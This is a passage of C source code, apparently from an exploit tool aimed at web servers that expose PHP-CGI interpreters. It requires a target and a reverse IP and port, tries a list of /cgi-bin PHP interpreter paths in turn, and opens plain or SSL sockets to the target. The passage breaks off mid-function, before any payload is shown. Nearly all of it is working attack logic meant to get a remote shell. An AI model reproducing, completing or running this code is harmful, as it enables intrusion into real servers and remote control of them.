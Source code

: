 >         usage(argv);
>       }
>       break;
>      
>      default:
>       usage(argv);
>      }
>   }
> 
>   if ((optind < argc) || !target || !protocol || !port ||
>       !reverseip || !reverseport){
>     usage(argv);
>   }
>   
>   server = gethostbyname_(target, port);
>   if (!server) {
>    printf("Error while resolving hostname. (7)\n");
>    exit(255);
>   }
> 
>   char *interpreters[5];
>   int ninterpreters = 5;
>   interpreters[0] = strdup("/cgi-bin/php");
>   interpreters[1] = strdup("/cgi-bin/php5");
>   interpreters[2] = strdup("/cgi-bin/php-cgi");
>   interpreters[3] = strdup("/cgi-bin/php.cgi");
>   interpreters[4] = strdup("/cgi-bin/php4");
>   
>   for (i=0;i<ninterpreters;i++) {
>    interpreter = interpreters[i];
>    if (forceinterpreter) {
>      interpreter = strdup(forceinterpreter);
>    }
>    if (forceinterpreter && i)
>     break;
>    printf("%s\n", interpreter);
>    
>    sockfd = socket(AF_INET, SOCK_STREAM, 0);
>    if (sockfd < 1) { 
>      printf("socket error (8)\n");
>      exit(255);
>    }
>   
>    if (connect(sockfd, (void*)server, sizeof(struct sockaddr_in)) < 0) {
>     printf("connect error (9)\n");
>     exit(255);    
>    }
>    if (httpsflag) {
>     sslconnection = (connection*) malloc(sizeof(connection));
>     if (!sslconnection) {
>      printf("malloc error (10)\n");
>      exit(255);   
>     }
>     sslconnection->handle = NULL;
>     sslconnection->ctx = NULL;
> 
>     SSL_library_init();
> 
>     sslconnection->ctx = SSL_CTX_new(SSLv23_client_method());
>     if (!sslconnection->ctx) {
>      printf("SSL_CTX_new error (11)\n");
>      exit(255);
>     }
> 